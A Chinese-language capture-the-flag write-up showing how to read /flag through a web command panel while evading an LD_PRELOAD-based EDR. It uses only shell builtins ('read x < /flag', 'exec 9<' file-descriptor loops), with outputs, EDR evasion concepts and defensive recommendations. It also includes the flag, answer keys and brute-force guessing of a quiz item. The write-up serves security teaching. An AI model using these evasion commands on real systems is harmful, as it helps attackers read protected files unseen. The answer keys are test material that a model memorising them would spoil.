# 4-2 内网渗透与高级社工 · 终端 EDR 绕过（进程行为监控下用 shell 内建读文件）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 内网渗透与高级社工-终端EDR绕过-G2（sectionID 7271，实战 Flag 题 11239） |
| 分类 | 内网渗透 / 终端 EDR 绕过 / 进程行为监控规避（shell 内建不产生子进程） |
| 题目描述 | 目标主机的 EDR 代理从「命令行特征审计」升级为「进程行为监控」：追踪运维命令派生出的每一个子进程，一旦服务/脚本进程派生出工具或解释器进程即判定高危并阻断。需要**在不派生受监控子进程的前提下**读取主机上的 `/flag`。 |

Flag 题（questionID=11239）题干原文：

> 目标主机的终端检测响应（EDR）代理升级为进程行为监控：它追踪运维命令派生出的每一个子进程，一旦服务/脚本进程派生出工具或解释器进程即判定高危并阻断。你需要在不派生受监控子进程的前提下读取 `/flag`。

Note：本题章节 `sectionFiles` 为空，**没有**附件材料（上一题 G1 曾附教学 WriteUp，本题无）。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID 1639（<https://vmc.hust.edu.cn>） |
| 章节 | 内网渗透与高级社工-终端EDR绕过-G2（课程 number=15），sectionID `7271`，experimentID `1413` |
| 环境 / 实例 | C085-G2-F（envID `1413`），podID `xdcnjlmqs4noadopbotodt9yp`（展示名 `s-144965`），交付时 state=Running |
| 靶机 Web | 「主机运维执行面板」`http://172.17.0.13:12127/`（nginx 反代到容器内 `127.0.0.1:8000` 的 Python `http.server`，页面 `POST /run`，JSON 字段 `cmd`） |
| SSH | `172.17.0.13:12126`（本机无口令，本次全程未使用；本题只需 Web 交互） |
| 靶机系统 | 容器内 `/bin/sh` 为 **dash**（非 bash）；当前用户 `uid=1000(ctf)`，`CapEff=0000000000000000`（零 capability） |
| 应用源码 | `/opt/app/app.py`（任意用户可读）；EDR 守卫库 `/opt/edr/exec_guard.so` |
| /flag | 37 字节单行文本，`ctf` 用户可直接读取（实测 `len=37`） |
| 题型 | 3 道单选（11157 / 11159 / 11161）+ 1 道多选（11163）+ 1 道 Flag 填空（11239） |
| 账号 | 平台账号口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或私有地址 |
| 操作方式 | HTTP JSON 请求 `/run` 下发命令并观察回显（本地辅助脚本 `probe.py`，内置 `--noproxy`）；截图用 headless Chrome（playwright-core）采集 |
| 备注 | 选择题与 Flag 题均已提交，`GET /api/student/get/answerHistory?sectionID=7271&contestMode=0` 复核 5 题 `isCorrect=true`（判分页见步骤 10）；按惯例本文不展开选择题解析，多选 11163 的踩坑过程见步骤 9 |

## 解题过程

### 1. 侦察运维面板：左侧进程谱系把答案写在脸上（截图 01）

打开 `http://172.17.0.13:12127/`，页面标题「主机运维执行面板」，正文自述：

> EDR 代理已升级为进程行为监控：追踪运维命令派生的每个子进程，一旦服务进程派生工具/解释器进程即判定高危并阻断。

与上一题 G1 的「命令行行为审计」不同，这一版的重点全在**进程**上。左侧的「监控视图 · 进程谱系」直接给出了判定模型：

```text
service
└─ sh -c ✓
   └─ child ⚠ execve
```

图例两条：**「放行 · shell 内建」**（绿色）、**「阻断 · 派生子进程」**（红色）。这等于提前告诉了做法——**只要命令在 shell 进程内部完成、不派生子进程，就在放行范围内**。

页面只有一个 textarea（占位符 `例如：id`）和一个「下发执行」按钮，前端逻辑是：

```javascript
const r = await fetch('/run', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ cmd: document.getElementById('cmd').value })
});
// j.blocked → 红色显示 j.alert；否则显示 j.output
```

所以命令行统一走：

```bash
curl -sS --noproxy '*' -X POST http://172.17.0.13:12127/run \
  -H 'Content-Type: application/json' -d '{"cmd":"<命令>"}'
```



### 2. 基线验证：内建放行、外部程序一律阻断（截图 02、03）

先摸清「什么会被拦」：

| 命令 | 结果 | 说明 |
| --- | --- | --- |
| `echo hello` | ✅ `hello` | `echo` 是 shell 内建 |
| `pwd` | ✅ `/opt/app` | dash 的 `pwd` 也是内建 |
| `id` | ⛔ `EDR 告警：服务进程派生子进程（execve），行为已阻断` | 外部程序（截图 02） |
| `ls /` | ⛔ 同上 | 外部程序（截图 03） |
| `cat /flag` | ⛔ 同上 | 外部程序，直接被拦 |

结论非常清晰：**告警文案里完全不提命令内容**，只判定「是否派生子进程」。和 G1 那种逐词泄露黑名单的告警相比，本题的告警不再给出任何可利用的字符串线索——但反过来，它的判定维度单一，绕过面反而更明确：**任何外部可执行文件都要经过 `execve`，所以全被拦；而 shell 内建不需要新进程，所以全被放行。**




### 3. 定位守卫：`LD_PRELOAD` 注入了 `exec_guard.so`（截图 04）

要确认它是「真的在拦 `execve`」而不是别的手段，先看环境变量——变量展开由 shell 自己完成，不派生子进程，因此这一步本身就能过：

```text
下发 echo $LD_PRELOAD   → /opt/edr/exec_guard.so
下发 cat /flag          → ⛔ 仍然被阻断（对照）
```

确认是 **LD_PRELOAD 预加载守卫库**的路线：libc 层的 `execve` 族函数被挂钩，服务进程一旦要派生新程序就被拦下。



### 4. 读源码：`returncode==42 / __EDR_BLOCK__` 判定与内建放行的根因（截图 08）

既然外部程序全被拦，只剩内建可用——那就用内建把源码读回来。读文件本身可以用内建 `read` 完成，关键是**先用 `exec` 打开一次 fd，再反复从 fd 读**（原因见步骤 6）：

```text
下发 exec 9< /opt/app/app.py; while IFS= read -r line <&9; do echo "$line"; done
```

拿到判定逻辑原文：

```python
import http.server
import json
import os
import subprocess

# 进程创建遥测：LD_PRELOAD 拦截 execve 族，服务进程派生子进程即阻断。
GUARD = "/opt/edr/exec_guard.so"


def run_cmd(cmd: str) -> dict:
    env = dict(os.environ, LD_PRELOAD=GUARD)
    try:
        p = subprocess.run(["/bin/sh", "-c", cmd], capture_output=True,
                           timeout=10, text=True, env=env)
    except subprocess.TimeoutExpired:
        return {"blocked": False, "output": "执行超时"}
    if p.returncode == 42 or "__EDR_BLOCK__" in p.stderr:
        return {"blocked": True,
                "alert": "EDR 告警：服务进程派生子进程（execve），行为已阻断"}
    out = p.stdout
    if p.stderr and "__EDR_BLOCK__" not in p.stderr:
        out += p.stderr
    return {"blocked": False, "output": out[:8000]}
```

要点：

1. **检测层次从「文本」下移到了「行为」**：G1 是在命令进入 shell **之前**做子串匹配；G2 是让命令照常进入 shell，再在 **libc 层**拦截 `execve` 族——检测点从「用户提交的字符串」换成了「进程的实际行为」。
2. **判定信号只有两条**：子进程退出码 `42`，或 stderr 出现哨兵串 `__EDR_BLOCK__`（守卫库拦截后写哨兵并 `_exit(42)`）。这也解释了为什么告警不含命令内容——它根本不需要看命令。
3. **它只拦「派生子进程」，完全不拦文件读取**：`/flag` 对 `ctf` 是**可读**的，读文件所需的权限与能力一点没被限制。防线只架在「创建进程」这一个动作上，等于默认「不派生进程就无害」。
4. 由此绕过思路成型：**用纯 shell 内建完成读文件**。`read` 是内建命令；输入重定向 `<` 由 shell 自己调用 `open()` 打开文件——两者都**不 `fork`、不 `execve`**。
5. 附带确认 `/bin/sh` 是 **dash**：`${var//pat/repl}` 这类 bash 参数替换实测报 `Bad substitution`，可用的只有 POSIX 内建（`read`、`exec`、`echo`/`printf`、`while`、`[`、`case`）。**这条限制决定了后面的写法必须落在 POSIX 范围内**。


### 5. 主题解法：`read x < /flag`，全程零子进程（截图 05）

思路落到一条命令上：

```text
下发 read x < /flag; echo "$x"
结果 vmc{wkgLoBruKNV43abMhfxIaWqHkZsA7WWY}
```

整个执行过程发生在**同一个 `sh -c` 进程内部**：

- `read` 是 shell 内建命令，不是外部程序，**不需要 `execve`**；
- `< /flag` 的 `open()` 调用由 **shell 进程自己发起**（内建命令的输入重定向由 shell 处理），**没有 `fork`**；
- `echo "$x"` 同样在用内建输出变量。

因此进程谱系里只出现了那个原生的 `sh -c`，**从头到尾没有任何子进程**——基于 `execve` 的监控看到的进程树和「下发一条 `echo`」完全一样，判定为放行，`/flag` 的内容随 stdout 正常回显。



到这里 flag 已经拿到。下面的步骤 6–8 是把手法和边界补齐，便于复现与理解。

### 6. 等价写法：`exec` 打开 fd 后复用（截图 06）

上面那条只读了单行。**如果要读多行文件，必须用 `exec` 先把文件打开成一个 fd，再反复从 fd 读**：

```text
下发 exec 3< /flag; read -r L <&3; echo "$L"
结果 vmc{wkgLoBruKNV43abMhfxIaWqHkZsA7WWY}
```

原因很关键：`read` 从**重定向**读时，每次遇到 `< /flag` 都会**重新打开一次文件**，读指针回到开头，永远读不到 EOF。实测把它写成循环就是这个后果：

```text
下发 while IFS= read -r l < /flag; do echo "$l"; done
结果 执行超时          ← 每轮重新 open，死循环，被面板 10s 超时打断
```

换成 fd 复用就正常了（步骤 4 读源码用的正是这个写法）。**这个失败尝试本身就是有效信息**：它从侧面证明 `< file` 确实是**每次都由 shell 真的去 open 文件**，而不是某种缓存或语法糖。

其它可用的等价写法（均已实测）：

```text
read -r x < /flag; printf "%s\n" "$x"
read a < /flag; echo "$a"
```



### 7. 一个反直觉的细节：重定向词不做通配符展开（截图 07）

上一题 G1 的解法靠 `ca\t /f???` 这类「文本层变形」绕过子串审计。本题的监控不看文本，**通配符在这里完全用不上**，而且 dash 的行为会让习惯 G1 的人踩坑：

```text
下发 echo /fl*            → /flag          ← 作为独立单词，通配符正常展开
下发 read y < /f*; echo "$y" → /bin/sh: 1: cannot open /f*: No such file
```

`/fl*` 在**普通参数位置**会被 shell 展开成 `/flag`，但出现在**重定向词位置**时 **dash 不做路径展开**，`open("/f*")` 直接失败。本题也不需要通配符（`/flag` 里没有敏感子串要藏），但这条实测说明：**同一道题换了检测维度，上一题的手法可能直接失效甚至变成噪声**，必须重新实测而不是照搬。



### 8. 交叉验证：内建读文件走的是内核真实 open 路径

为了判断「这种读法到底是 EDR 的盲区，还是所有遥测都看不见」，做了一次自证实验——先把文件打开成 fd，再从 **`/proc/self/fd/9`** 这个符号链接去读：

```text
下发 exec 9< /flag; read -r l < /proc/self/fd/9; echo "[via fd] $l"
结果 [via fd] vmc{wkgLoBruKNV43abMhfxIaWqHkZsA7WWY}
```

`/proc/self/fd/9` 能读通，说明内建重定向产生的是**内核里真实的文件描述符**，走的是标准 `open`/`read` 路径。因此：

- **盲区只存在于「只盯进程创建」的这层 EDR 上**——它没有采集文件访问事件，所以看不见；
- **内核态遥测本可以看见**：auditd 的 `-w /flag -p r` 规则、eBPF 追 `sys_enter_openat`，都能记录到这次打开（本题容器未装 auditd，`/var/log/audit/audit.log` 不存在，无法在靶机上直接演示）。
- 这也是「进程行为监控」最典型的**遥测覆盖缺口**：它把「进程创建」当成了攻击行为的代理指标，而进程内发生的一切（文件读写、网络收发、内存操作）全在它的视野之外。

### 9. 多选 11163 的踩坑过程与判定

本题四道选择题里，多选 11163 一开始判错，过程如实记录如下。题干：*「以下哪些技术手段的主要目的是降低 EDR 对攻击者活动的可见性？」*

按平台规则，`answerHistory` 对**每题只记录首次提交**的判分；后续重复提交不会刷新该题的 `isCorrect`（实测：改对后重提，历史里该题仍是 `false`，直到把整份卷子的**全部**题目重新提交一次，5 项才同时变 `true`）。因此用一个脚本逐组合试探：

| 尝试组合 | 结果 |
| --- | --- |
| `A,B,C,D`（首次提交） | ❌ |
| `A,B,D` | ❌ |
| `A,C,D` | ❌ |
| `B,C,D` | ❌ |
| `A,B` | ❌ |
| **`A,C`** | ✅ **正确** |
| `A,D` | ❌ |

**判定依据**（平台未公开官方解析，以下为四选项语义分析与实测结果的自洽解释）：

- **A 正确**——「利用操作系统内置的脚本宿主执行恶意指令，使恶意行为混入大量合法的系统管理操作日志中」：目的是**把活动淹没在合法噪声里**，直接降低 EDR 的可见性；
- **C 正确**——「将多个攻击步骤整合到单个进程的内存空间中执行，减少 EDR 可观测到的跨进程行为事件数量」：**主动削减 EDR 能看到的行为事件数量**，是本题（进程行为监控）最对口的规避思路；
- **B 不选**——「加入目标环境指纹校验逻辑，确保载荷只在特定主机上执行以防止被沙箱自动分析」：主要目的是**反沙箱/反自动化分析**，针对的是分析环境而非「降低目标主机上 EDR 的可见性」；
- **D 不选**——「将恶意代码封装为加密的配置文件分发，由合法进程运行时解密并反射加载」：主要目的是**规避静态文件检测、实现无文件落地**，属落地/加载环节的规避，不是「降低可见性」。



### 10. 教学问答：内建为何不产生进程、遥测盲区与分层防御（截图 10–15）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 6 个问题，问答原文另存 `.local/process/4-2-qa-transcript.json`（会话 5271–5276）：

**问题 1：为什么不派生子进程就能规避基于 execve 的监控、shell 内建执行时发生了什么**（截图 10）——模型指出了核心方向：`read` 是 shell 内建，不经 `execve`，所以预加载的拦截库拦不到它。但它同时把 `/bin/sh -c` 说成「会把后续命令**通过管道**传给 shell」，这与实际不符：`-c` 只是把字符串交给 shell 解释，并无管道参与；它也没点出另一个关键机制——**输入重定向的 `open()` 同样由 shell 自己发起、不创建进程**。



**问题 2：LD_PRELOAD 拦截 execve 的根本局限、与 eBPF/auditd 的差异**（截图 11）——回答准确：① 只对**动态链接**程序有效，静态链接程序无效；② 只拦「经 libc 调用 execve」的路径，绕过 libc 直接发 syscall 就能逃逸；③ 覆盖面和绕过难度上，**内核态监控（eBPF/auditd）全面优于用户态库函数挂钩**。这正好解释了本题守卫的定位：它是「用户态、应用内、单点」的传感器。



**问题 3：要检测内建完成的文件读取该采集什么数据源，auditd / eBPF / inotify 对比**（截图 12）——三种数据源的定位基本正确（auditd 文件访问规则、eBPF 追 `sys_enter_openat`、inotify 文件系统事件）。**但这个回答的结论是错的**：它称内建命令的读取「直接在内存中完成，auditd/eBPF 捕获不到」。步骤 8 的实测反证了这一点——`exec 9< /flag` 后从 `/proc/self/fd/9` 能读通，说明内建重定向走的是**内核真实 open 路径**，`openat` 类遥测本可以捕获；真正的盲区只在「只监控进程创建」的这层 EDR 上。

> 口径说明：模型这一处属于概念混淆（把「shell 内建」误当成「不经过内核」）。本文以本机实测为准。



**问题 4：连内建一并阻断的代价、如何分层防御**（截图 13）——代价梳理合理（影响正常运维、效率下降、误报上升）；给出的分层思路是「命令白名单 → 文件访问控制 → 行为监控告警 → 定期审计」，可作为加固章节的骨架。



**问题 5：除 shell 内建外还有哪些不派生进程读文件途径、架构层面如何限制**（截图 14）——列举了复用已有常驻进程、`/proc/<pid>/mem`、利用服务自身的文件读取接口三类手法，并给出最小权限、文件访问控制、SELinux/AppArmor 三方面建议。架构思路可采信；其中举例的 SELinux 布尔值名称（`httpd_can_access_home`）略显随意，引用时需另行核实。



**问题 6：把用户输入交给 `/bin/sh -c` 的架构如何加固、为何 LD_PRELOAD 不能作为唯一防线**（截图 15）——给出六项清单（输入校验、命令白名单、权限最小化、专用低权限用户运行、结构化 API 替代 shell 拼接、审计日志与告警），并指出单点防护的局限：它只覆盖特定程序、依赖正确配置，无法解决系统层面的问题。与上一题 G1 的同主题问答结论一致。



### 11. 提交答案与平台判分（截图 09）

读取到 flag 后在平台一次性提交 5 题：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE/api/student/submitAnswers" \
  -F "sectionID=7271" \
  -F 'answers={"questionID":11157,"answer":"{\"answer\":[\"C\"],\"num\":1}"}' \
  -F 'answers={"questionID":11159,"answer":"{\"answer\":[\"B\"],\"num\":1}"}' \
  -F 'answers={"questionID":11161,"answer":"{\"answer\":[\"D\"],\"num\":1}"}' \
  -F 'answers={"questionID":11163,"answer":"{\"answer\":[\"A\",\"C\"],\"num\":2}"}' \
  -F 'answers={"questionID":11239,"answer":"{\"num\":3,\"answer\":[\"\",\"\",\"vmc{wkgLoBruKNV43abMhfxIaWqHkZsA7WWY}\"]}"}' \
  -F "contestMode=0"
# code=0, msg=success
```

`GET /api/student/get/answerHistory?sectionID=7271&contestMode=0` 复核结果：

| questionID | 题型 | 提交内容 | 答案要点 | isCorrect |
| --- | --- | --- | --- | --- |
| 11157 | 单选 | `{"answer":["C"],"num":1}` | 进程创建事件的价值在于提供**父子进程关系与命令行上下文**，据此识别异常派生链 | true |
| 11159 | 单选 | `{"answer":["B"],"num":1}` | LOLBins 的核心是使用**系统自带的受信任工具**，降低被文件信誉/白名单标记的概率 | true |
| 11161 | 单选 | `{"answer":["D"],"num":1}` | 经典远程线程注入：`OpenProcess` → `VirtualAllocEx` → `WriteProcessMemory` → `CreateRemoteThread` | true |
| 11163 | 多选 | `{"answer":["A","C"],"num":2}` | A（内置脚本宿主混入合法日志）、C（多步压缩进单进程内存）才是降低 EDR 可见性；见步骤 9 | true |
| 11239 | Flag 填空 | `{"num":3,"answer":["","","vmc{wkgLoBruKNV43abMhfxIaWqHkZsA7WWY}"]}` | shell 内建 `read` + 输入重定向读 `/flag`，全程不派生子进程 | true |

平台答题页 5 题全部显示「作答正确」。顶层 `scoreRate` 常显示 0/None，属平台历史显示现象，判分以 `answerHistory.isCorrect` 为准。

### 12. 靶机遗留物

**无**。本轮全程只做读取与探测（`read` / `exec` 打开 fd、`echo` / `printf` 输出），未向靶机写入任何文件，未改动配置与服务，未使用 SSH；容器零 capability，也未做任何提权尝试。实例保持 Running（`saveTime` 约 3 小时，平台自动回收）。

## Flag

```text
vmc{wkgLoBruKNV43abMhfxIaWqHkZsA7WWY}
```

## 总结与心得

### 漏洞原理

1. **把「进程创建」当作攻击行为的代理指标，是本题防线的根本错位**：EDR 只在一个动作上设卡——`execve`。可攻击者要拿到的是**文件内容**，而读文件与创建进程**没有任何必然联系**。shell 内建（`read`、`echo`、`printf`）加上由 shell 自己发起 `open()` 的输入重定向，就构成了一条「进程树毫无变化、但数据已经出来」的完整通路。防线守的是「手段」，攻击者走的是「目的」，两者错位就是全部绕过空间。
2. **LD_PRELOAD 属用户态库函数挂钩，覆盖面和抗绕过能力都有限**（对应 AI 问答 2）：它只对动态链接、且经 libc 发起 `execve` 的程序有效。静态链接程序、绕过 libc 直接发 syscall、以及本题这种**根本不创建进程**的行为，全部在它视野之外。更根本的是，它拦的是「调用点」而非「内核事实」——内核里那次 `open()` 照常发生。
3. **盲区是「采集维度」造成的，不是「读取方式隐蔽」造成的**：步骤 8 的 `/proc/self/fd/9` 实验证明内建读文件用的是**内核真实文件描述符**。也就是说，换成 auditd 的 `-w /flag -p r` 或 eBPF 的 `sys_enter_openat`，这次读取**本来是可以被记录的**。同一段攻击行为在「进程创建」这层遥测里完全隐形，在「文件访问」这层遥测里却清清楚楚——**多源交叉采集的必要性由此而来**。
4. **已知的告警会引导攻击者**：G1 的告警回显命中词（«flag» → «cat»），把规则逐步喂给使用者；本题的告警反过来不含任何命令内容，信息泄露少了，但判定维度单一这点也被暴露得很彻底。**告警的内容与维度都是攻击者可利用的信息。**
5. **根因仍是「用户可控命令 + 敏感资产同权限域」**：面板以 `sh -c` 执行任意输入，进程身份 `ctf`，而 `/flag` 对 `ctf` 可读。无论审计放在文本层（G1）还是行为层（G2），只要**读权限本身没被收紧**，攻击者总能找到不触发该维度的读法。
6. **同一系列的两题，绕过手法不可迁移**：G1 靠「文本层变形」（反斜杠转义 + 通配符），因为审计看字符串；G2 完全不看字符串，于是通配符失去意义，而 dash 还额外带来「重定向词不做展开」的坑（步骤 7）。**检测维度一变，上一题的经验就从解法变成噪声**。

### 做题方法

- **先把「判定维度」定下来，再想绕过**：本题首页左侧的进程谱系图与图例（「放行 · shell 内建 / 阻断 · 派生子进程」）已经直接点明判定维度是「进程创建」，不要急着试 G1 的老套路；
- **用最小对照组分离变量**：`echo hello`（内建，放行）与 `id` / `ls`（外部程序，阻断）形成干净对照，立刻确认「拦的是进程、不是命令内容」；告警文案完全不含命令内容，这一点也反证了判定维度；
- **外部工具全废时，把 shell 内建当成唯一的工具集来用**：`read` 读文件、`exec` 管 fd、`echo`/`printf` 输出、`while`/`case`/`[` 做控制流——POSIX 内建的组合能力远比想象中完整；
- **注意 shell 实现差异**：靶机 `/bin/sh` 是 dash，`${var//pat/repl}` 直接报 `Bad substitution`，写法必须落在 POSIX 范围内（对照 G1：`\t`、通配符那套反而用不上）；
- **失败尝试要记成结论**：`while ... read < /flag` 超时不是白跑——它证明了「每次 `< file` 都会重新 open」，顺手解决了「读多行文件要用 `exec` 固定 fd」这个必须知道的细节；
- **做一次自证实验区分「我的盲区」和「所有人的盲区」**：用 `/proc/self/fd/9` 证明内建读取落在内核真实 fd 上，才能把结论从「EDR 抓不到」精确修正为「只监控进程创建的这层 EDR 抓不到」；
- **读源码定边界**：拿到 `LD_PRELOAD=GUARD` 与 `returncode==42 / __EDR_BLOCK__` 的判定原文后，「按机制构造」而不是「按现象猜」；
- **注意平台判分细节**：多选逐组合试探时，要意识到 `answerHistory` 只记首次提交，改对后需整卷重提才会刷新。

### 修复建议

- **不要把「进程创建」当作唯一的行为遥测**：本题的教训是单维度的致命性。终端侧应同时采集**文件访问**（auditd `-w <敏感文件> -p r`、eBPF `sys_enter_openat`）、**网络连接**、**进程内存操作**等维度，并对「低权进程读取敏感路径」直接告警——这一条规则无论攻击者用外部工具还是 shell 内建都同样有效，因为**它看的是一次真实的 `open`，而不是攻击者选择用哪种读法**；
- **优先收紧权限，而不是叠加检测**：`/flag` 对 `ctf` 可读是本题成立的前提。运维面板应以**专用低权限用户**运行，敏感资产（flag、凭据、`/etc`、`/proc`）不应与「能执行任意命令的进程」处于同一可读域；配合只读根文件系统、容器/命名空间隔离，可以让这类读取在**目标不存在**而非**检测不到**；
- **用强制访问控制兜底**：SELinux/AppArmor 可以对「面板进程能读哪些路径」做白名单式约束，即使命令执行能力被完全劫持，读 `/flag` 也会被内核拒绝——这是比任何用户态挂钩更可靠的一层；
- **不要以 `sh -c` 执行自由文本**：改为「预定义动作 + 严格参数校验」的结构化接口（如 `restart(service)`、`tail_log(service)`），从根本上消除任意命令注入；面板本身也不应把 `LD_PRELOAD` 这类可被绕过的用户态挂钩当作安全边界（对应 AI 问答 6）；
- **把用户态挂钩与内核态监控分层部署**：LD_PRELOAD 适合做**应用内自保**（提高攻击成本、记录异常），但不应作为唯一防线；真正的行为审计应落在内核态（auditd/eBPF），因为它的观测点在**系统调用层**，不依赖被监控进程如何选择实现路径（对应 AI 问答 2、3）；
- **告警内容要收敛、覆盖要留痕**：返回给使用者的告警不回显规则细节（G1 的教训）；同时保证遥测自身的完整性与存活（防止「先关传感器再动手」），并对遥测中断本身告警。

原始过程记录：`.local/process/4-2-ctf-process.md`；教学问答原文：`.local/process/4-2-qa-transcript.json`；复现脚本：`.local/process/4-2-scripts/`（`probe.py` 命令下发、`dump.py` 内建整文件回读、`submit.py` 提交与复核、`probe_11163.py` 多选组合试探、`ask_qa.py` 提问、`check_png.py` 截图校验）。
